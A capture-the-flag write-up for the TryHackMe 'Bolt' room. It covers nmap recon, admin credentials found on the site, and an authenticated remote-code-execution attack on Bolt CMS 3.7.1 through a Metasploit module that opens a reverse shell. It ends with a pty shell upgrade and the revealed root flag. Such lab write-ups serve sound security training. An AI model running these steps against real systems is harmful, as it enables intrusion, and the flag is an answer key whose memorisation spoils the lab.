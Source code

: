 # Bolt

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Bolt](https://tryhackme.com/room/bolt)
>
>  **Description**
>
> 📝 *This room is designed for users to get familiar with the Bolt CMS and how it can be exploited using Authenticated Remote Code Execution*
>
> ![](.gitbook/assets/bolt.png)
>
> **Target IP**
>
> 🎯 `10.10.218.91`

## Recon

```bash
su
echo "10.10.218.91 bolt.thm" >> /etc/hosts

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

Start Reconnaissance

```bash
mkdir thm/bolt
cd thm/bolt
nmap bolt.thm
    22/tcp   open  ssh
    80/tcp   open  http
    8000/tcp open  http-alt

nmap -sV -sC -Pn -oA bolt bolt.thm
```

```bash
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f385ec54f201b19440de42e821972080 (RSA)
|   256 77c7c1ae314121e4930e9add0b29e1ff (ECDSA)
|_  256 070543469db23ef04d6967e491d3d37f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 Not Found
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: private, must-revalidate
|     Date: Mon, 15 May 2023 17:35:38 GMT
|     Content-Type: text/html; charset=UTF-8
|     pragma: no-cache
|     expires: -1
|     X-Debug-Token: 48ed6c
|     <!doctype html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     </head>
|     <body>
|     href="#main-content" class="vis
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Connection: close
|     X-Powered-By: PHP/7.2.32-1+ubuntu18.04.1+deb.sury.org+1
|     Cache-Control: public, s-maxage=600
|     Date: Mon, 15 May 2023 17:35:37 GMT
|     Content-Type: text/html; charset=UTF-8
|     X-Debug-Token: 1f990b
|     <!doctype html>
|     <html lang="en-GB">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Bolt | A hero is unleashed</title>
|     <link href="https://fonts.googleapis.com/css?family=Bitter|Roboto:400,400i,700" rel="stylesheet">
|     <link rel="stylesheet" href="/theme/base-2018/css/bulma.css?8ca0842ebb">
|     <link rel="stylesheet" href="/theme/base-2018/css/theme.css?6cb66bfe9f">
|     <meta name="generator" content="Bolt">
|     <link rel="canonical" href="http://0.0.0.0:8000/">
|     </head>
|_    <body class="front">
```

Enumerate the Bolt web application.

![](.gitbook/assets/image-20230515194324231.png)

> 📌 `bolt`:`boltadmin123`

Find the Bolt CMS login page

![](.gitbook/assets/image-20230515194049520.png)

Navigate to

- `http://bolt.thm:8000/bolt/login`
- and use the `bolt` credentials

Once logged in, the Bolt version is at the bottom of the page.

> 📌 `Bolt 3.7.1`

## Exploitation

```bash
searchsploit bolt 3.7 -w

# EDB-ID is 48296
```

![](.gitbook/assets/image-20230515194653700.png)

Use Metasploit to exploit the [**`Authenticated Remote Code Execution`**](https://www.exploit-db.com/exploits/48296) Bolt vulnerability

```bash
msfconsole -q

setg RHOSTS bolt.thm
setg RHOST bolt.thm
search bolt
use exploit/unix/webapp/bolt_authenticated_rce
set LHOST tun0
set USERNAME bolt
set PASSWORD boltadmin123
run
```

![root shell](.gitbook/assets/image-20230515195717170.png)

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

find / -type f -name 'flag.txt' 2>/dev/null
cat /root/flag.txt
```





<details>
<summary>Reveal Flag - root: 🚩</summary>



`THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}`

![](.gitbook/assets/image-20230515195919144.png)

</details>



------


